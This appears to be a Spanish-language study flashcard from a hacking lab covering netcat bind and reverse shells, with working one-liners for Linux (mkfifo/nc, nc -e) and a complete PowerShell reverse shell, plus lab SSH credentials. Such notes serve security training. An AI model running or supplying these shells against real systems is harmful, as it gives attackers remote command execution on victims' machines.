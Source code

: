 **Flashcard: Netcat Bind and Reverse Shells (Linux & Windows)**

---

**Context:** Acceso remoto a máquina Linux/Windows usando shells con netcat.

---

**Credenciales SSH:**

* Usuario: `shell`
* Pass: `TryH4ckM3!`

---

**1. Netcat Bind Shell (Linux sin `-e`):**

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

* Crea pipe nombrado `/tmp/f`.
* Escucha (`-l`) en `<PORT>`.
* Redirige entrada/salida para ejecutar shell interactivo.
* Al conectarse, permite control remoto (bind shell).

---

**2. Netcat Reverse Shell (Linux sin `-e`):**

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

* Conecta hacia `<LOCAL-IP>:<PORT>`.
* Usa pipe nombrado para shell interactivo.
* Se debe tener listener (`nc -lvnp <PORT>`) en la máquina atacante.

---

**3. Netcat Bind Shell con opción `-e` (Linux/Windows, no común en Kali actual):**

```bash
nc -lvnp <PORT> -e /bin/bash
```

* Ejecuta `/bin/bash` al conectar.
* Versión insegura, no común en netcat modernas.

---

**4. Netcat Reverse Shell con opción `-e` (Windows o versiones antiguas netcat):**

```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

---

**5. Powershell Reverse Shell (Windows):**

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

* Reemplazar `<IP>` y `<port>` por IP y puerto de escucha.
* Ejecutar en cmd.exe o webshell Windows para reverse shell.

---

**Notas:**

* Listener en atacante: `nc -lvnp <PORT>`
* `/tmp/f` pipe temporal debe ser borrado después.
* Netcat moderno en Kali no soporta `-e` por seguridad.
* Powershell shell útil en servidores Windows modernos.

---